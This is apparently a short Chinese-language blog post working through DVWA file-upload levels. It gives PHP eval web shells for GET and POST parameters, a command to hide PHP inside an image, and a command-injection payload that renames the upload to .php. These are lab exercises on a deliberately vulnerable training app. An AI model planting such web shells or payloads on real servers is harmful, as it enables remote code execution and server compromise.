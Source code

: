 ```yaml
---
layout: post
title: File Upload
subtitle: 文件上传漏洞
date: 2023-08-01 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```